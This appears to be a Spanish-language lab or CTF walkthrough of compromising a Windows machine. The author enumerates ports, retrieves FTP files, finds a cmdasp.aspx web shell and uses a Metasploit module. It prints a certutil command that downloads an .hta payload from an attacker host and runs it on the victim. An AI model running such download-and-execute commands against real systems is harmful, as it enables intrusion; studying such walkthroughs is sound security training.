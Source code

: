 Puertos escaneados
![[Pasted image 20240702111925.png]]
![[Pasted image 20240702111957.png]]

Accedemos por ftp y nos descargamos los ficheros
![[Pasted image 20240702131908.png]]

Revismos el fichero de robotos y encontramos que ha deshabilitado el fihcero cmdasp.aspx
![[Pasted image 20240702132201.png]]

Revisamos el fichero y el contenido y es una web shell
![[Pasted image 20240702132226.png]]

Al acceder encontramos que podemos ejecutar comandos con los permisos mas altos
![[Pasted image 20240702132320.png]]

Listamos los usuarios del sistema
![[Pasted image 20240702170227.png]]

Ahora ejecutaremos el siguiente modulo de metasploit para realizar una carga maliciosa y obtener acceso al sistema
![[Pasted image 20240702173647.png]]

Ejecuto el modulo
![[Pasted image 20240702173705.png]]

Y en la maquina victima tenemos que descargarnos y ejecutar el payload, para ello ejecutamos los siguientes comandos
```
certutil -urlcache -split -f http://192.168.100.5:8080/yBiCtn2sdHy3c.hta .\exploit.hta
start .\exploit.hta
```

Y ya tendremos acceso a la maquina victima
![[Pasted image 20240702173836.png]]


